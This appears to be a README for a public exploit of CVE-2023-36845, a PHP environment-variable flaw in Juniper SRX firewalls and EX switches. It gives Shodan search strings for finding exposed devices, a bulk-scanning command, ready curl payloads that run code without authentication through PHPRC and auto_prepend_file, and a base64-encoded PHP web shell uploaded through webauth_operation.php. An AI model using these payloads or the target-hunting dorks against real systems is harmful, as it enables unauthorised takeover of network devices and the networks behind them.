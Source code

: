 # CVE-2023-36845

![](https://img.shields.io/static/v1?label=Product&message=Juniper%20Web%20Device%20Manager&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20versions%20prior%20to%2021.4R3-S5&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)

## Description

CVE-2023-36845 represents a notable PHP environment variable manipulation vulnerability that impacts Juniper SRX firewalls and EX switches. While Juniper has categorized this vulnerability as being of medium severity, in this article, we will elucidate how this singular vulnerability can be leveraged for remote, unauthenticated code execution.

## Shodan dork:
```
title:"Juniper Web Device Manager"
```

```
title:"Juniper" http.favicon.hash:2141724739
```

## Usage
Detection
```
python3 CVE-2023-36845.py -f targets.txt -o output.txt
```

## RCE 

### Option 1 
Utilizing any protocol wrapper in conjunction with `auto_prepend_file` is feasible. The most suitable choice for this operation is the `data://` protocol, which allows inline provision of the "secondary file". Here's a sophisticated representation of this exploit, executing the embedded `<? phpinfo(); ?>` within the `data://` scheme:

```
curl "http://target.tld/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'
```
Execute `whoami` command

`<?php shell_exec('whoami'); ?>`
```
curl "http://target.tld/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD9waHAgc2hlbGxfZXhlYygnd2hvYW1pJyk7ID8+Cg=="'
```

### Option 2
Upload a file

`<?php if(isset($_REQUEST[cmd])){ echo "<pre>"; $cmd = ($_REQUEST[cmd]); system($cmd); echo "</pre>"; die; }?>`

```
$ curl http://target.tld/webauth_operation.php -d 'rs=do_upload&rsargs[]=[{"fileName": "shell.php", "fileData": ",PD9waHAgaWYoaXNzZXQoJF9SRVFVRVNUW2NtZF0pKXsgZWNobyAiPHByZT4iOyAkY21kID0gKCRfUkVRVUVTVFtjbWRdKTsgc3lzdGVtKCRjbWQpOyBlY2hvICI8L3ByZT4iOyBkaWU7IH0/Pgo=
", "csize": 110}]'
```

## Parameters 

Parameter | Description | Type
------------ | ------------- | -------------
--file / -f | Input targets file | File
-o | Output file | File

